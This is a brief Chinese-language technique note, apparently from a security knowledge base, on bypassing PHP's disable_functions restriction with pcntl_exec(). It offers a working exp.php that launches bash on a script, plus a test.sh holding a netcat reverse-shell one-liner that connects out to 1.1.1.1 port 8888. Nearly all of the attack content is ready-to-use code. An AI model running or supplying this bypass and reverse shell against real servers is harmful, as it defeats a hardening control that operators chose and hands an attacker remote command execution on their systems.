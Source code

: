 ```yaml
---
title: "利用 pcntl_exec 绕过"
id: zhfly3466
---
```


## ***利用 pcntl_exec 绕过***

**1\. 前提条件**

PHP安装并启用了pcntl插件

**2\. 基本原理**

利用pcntl_exec()这个pcntl插件专有的命令执行函数来执行系统命令，从而绕过disable_functions

**3\. exp**

> exp.php

```
#利用pcntl_exec()执行test.sh
<?php
if(function_exists('pcntl_exec')) {
  pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
    echo 'pcntl extension is not support!';
}
?> 
```

> test.sh

```
#!/bin/bash
nc -e /bin/bash 1.1.1.1 8888    #反弹shell 
```